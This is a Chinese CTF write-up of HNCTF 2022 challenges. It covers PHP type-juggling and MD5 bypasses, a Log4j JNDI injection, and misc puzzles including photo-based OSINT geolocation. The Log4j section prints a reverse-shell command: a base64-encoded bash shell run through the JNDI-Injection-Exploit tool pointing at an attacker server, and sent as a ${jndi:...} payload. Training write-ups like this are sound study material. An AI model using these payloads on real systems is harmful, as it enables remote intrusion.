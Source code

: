 ```yaml
---
title: HNCTF 2022
date: 2023/5/31 19:48:25
categories:
- CTF
tags:
- HNCTF
---
```




## web

### [HNCTF 2022 WEEK3]Fun_php

```php
$getUserID = @$_GET['user']; 
$getpass = (int)@$_GET['pass']; 
$getmySaid = @$_GET['mySaid']; 
$getmyHeart = @$_GET['myHeart']; 

$data = @$_POST['data'];
$verify =@$_POST['verify'];
$want = @$_POST['want'];
$final = @$_POST['final'];
```

```php
if(is_string($getUserID))
    $user = $user + $getUserID; //u5er_D0_n0t_b3g1n_with_4_numb3r

if($user == 114514 && $getpass == $pass){
    if (!ctype_alpha($getmySaid)) 
        die();
    if (!is_numeric($getmyHeart)) 
        die();
    if(md5($getmySaid) != md5($getmyHeart)){
        die("Cheater!");
    }
    else
        $week_1 = true;
}
```

- 字符串与数字弱比较

  > u5er_D0_n0t_b3g1n_with_4_numb3r

  ```php
  'sdasd114514' ==  114514
      
  get --> user=114514
  ```

- 猜测$pass为字符串

  ```php
  'dbasdha' == 0 //True
  
  get --> pass=0
  ```

- 字符串与数字MD5相等

  科学计数法绕过  **0e开头的数字字符串**

  ```php
  s214587387a
     
  1586264293
  ```

  

  

  ```php
  if(is_array($data)){
      for($i=0;$i<count($data);$i++){
  
          if($data[$i]==="Probius") exit();
  
          $data[$i]=intval($data[$i]);
      }
      if(array_search("Probius",$data)===0)
          $week_2 = true;
  
      else
          die("HACK!");
  }
  ```

  array_search默认弱比较查找,返回查找成功元素的下标

  ```php
  post --> data[]=0
  ```

  

  

  ```php
  if($week_1 && $week_2){
      if(md5($data)===md5($verify))
          // ‮⁦HNCTF⁩⁦Welcome to
          if ("hn" == $_GET['hn'] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦ctf" == $_GET[‮⁦LAG⁩⁦ctf]) { //HN! flag!! F
          
              if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
                  die("HACK!");
         
                  else{
                      echo "Fine!you win";
                      system("cat ./$want");
                   }
      }
      else
          die("HACK!");
  }
  ```

  md5弱比较，数组绕过

  ```php
  post --> data[]=0&verify[]=1
  ```

  ![image-20221101183032110](../images/image-20221101183032110-1686150252660.png)

  零宽度隐写，？？？？

  ```php
  get --> 
      
  hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf
  ```

  

```php
  if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
```

通配符绕过

```php
  post --> want=f*
```





### [HNCTF 2022 WEEK3]logjjjjlogjjjj

复现：https://blog.csdn.net/weixin_47179815/article/details/125654828

本地环境：JDK版本1.8

攻击流程

- 服务器运行攻击脚本生成payload

  ```
  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64(反弹shell)}|{base64,-d}|{bash,-i}" -A 服务器ip
  ```

![image-20221101211620970](../images/image-20221101211620970-1686150252661.png)

- 服务器监听端口

- 发送payload

  ```java
  ${jndi:xxx://xxxx/xxx}
  将上面生成的payload放入（优先JDK）
  ```

  URL编码后发送请求

  ![image-20221101211959222](../images/image-20221101211959222-1686150252662.png)

成功连接

<img src="E:\typora img\image-20221101211512855.png" alt="image-20221101211512855" style="zoom:50%;" />











## misc

### 简单编码

图片尾部有一串url编码后的字符

![image-20221102000004428](../images/image-20221102000004428-1686150252663.png)

### [HNCTF 2022 Week1]线下单杀出题人（OSINT)

![image-20221101232202282](../images/image-20221101232202282-1686150252663.png)

首先从A图片中提取出经纬度

![image-20221101232242899](../images/image-20221101232242899-1686150252663.png)



因为这个经纬度是度分秒的形式，需要先转换为度数形式

格式转换：http://www.gzhatu.com/du2dfm.html

定位：http://www.gzhatu.com/dingwei.html

![image-20221101232434815](../images/image-20221101232434815-1686150252663.png)

A图片中还有一个提示

![image-20221101232718045](../images/image-20221101232718045-1686150252663.png)

所以可以确定定位是正确的。

然后根据第二张图中的河流可以知道是往哪条路走的。

<img src="E:\typora img\image-20221101232747393.png" alt="image-20221101232747393" style="zoom:67%;" />

用高德地图定位嘉兴电信大厦，往那条路找，找到

<img src="E:\typora img\image-20221101232627057.png" alt="image-20221101232627057" style="zoom:67%;" />

flag

```python
from hashlib import md5

print(md5('嘉兴市南湖区禾兴北路506号亚芬汀精品酒店'.encode('utf-8')).hexdigest())#utf-8编码
```

SSCTF{f833a4d17d35ca5da40f087950293d04}



也可以用exif工具查看

<img src="E:\typora img\image-20221101234725942.png" alt="image-20221101234725942" style="zoom: 50%;" />



### [HNCTF 2022 Week1\]三生三世

弱密码爆破，图片base64隐写得到二维码，扫描后用栅栏密码解密，每组字数为3.

### [HNCTF 2022 Week1]silly_zip

伪加密+IHDR修改

### [HNCTF 2022 Week1]piz.galf

两次逆序

```python
f = open(r"C:\Users\khaz\Downloads\pmb.galf" , 'rb' ).read()
f2 = open(r"C:\Users\khaz\Downloads\flag.bmp" , "wb")
f2.write(f[ ::-1])
```















































































